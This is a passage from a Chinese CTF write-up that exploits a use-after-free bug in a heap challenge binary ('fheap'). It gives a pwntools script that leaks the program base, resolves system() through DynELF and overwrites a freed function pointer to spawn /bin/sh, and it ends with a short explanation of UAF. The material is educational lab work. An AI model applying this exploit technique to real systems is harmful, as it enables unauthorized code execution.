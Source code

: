 ```
    create(0x20,data)#在这里连续创建两个堆块，从而使输入的data与前面的块1公用一块内存。
    delete(1)#这里劫持函数程序流
    p.recvuntil('b'*0x8)
    data=p.recvuntil('1.')[:-2]
    if len(data)&gt;8:
        data=data[:8]
    data=u64(data.ljust(8,'x00'))-0xA000000000000 #这里减掉的数可能不需要，自行调整
     proc_base=data-0xd2d
    print "proc base",hex(proc_base)
    print_plt=proc_base+0x9d0
    print "print plt",hex(print_plt)
    delete(0)
    data='a'*0x10+'b'*0x8+'x2D'+'x00'
    create(0x20,data)
    delete(1)
    p.recvuntil('b'*0x8)
    data=p.recvuntil('1.')[:-2]
    #part2 使用DynELF泄露system函数地址
     d = DynELF(leak, proc_base, elf=ELF('./fheap'))
    system_addr = d.lookup('system', 'libc')
    print "system_addr:", hex(system_addr)
    
    #parts 执行system函数，开启shell
    delete(0)
    data='/bin/sh;'+'#'*(0x18-len('/bin/sh;'))+p64(system_addr)
    create(0x20,data)
    delete(1)
    p.interactive()

    ####
    #利用的方式总结为
    #delete(0)，将申请出来的堆块添入到fastbin中
    #create(0x20,data),连续申请两个堆块，数据覆盖1堆中的free_func指针
     #delete(1)劫持函数流，调用我们覆盖的指针处的地址
    ###

    if __name__ == '__main__':
            pwn()
```

执行结果

[![](https://p1.ssl.qhimg.com/t012c2919e192ac8001.png)](https://p1.ssl.qhimg.com/t012c2919e192ac8001.png)

<br>

**四、小结**



我感觉UAF最主要的是，在释放了堆块以后没有将指针置空，后续过程中内存空间数据被覆盖为其他数据后，该指针仍然可以正常使用该内存，从而导致数据的误用。ctf题中容易碰见的是，释放的堆块中原本某个区域是用来存储函数指针的，后面被恶意构造的数据覆盖成其他地址实现了劫持函数流的目的，从而有可能就被pwn掉了。
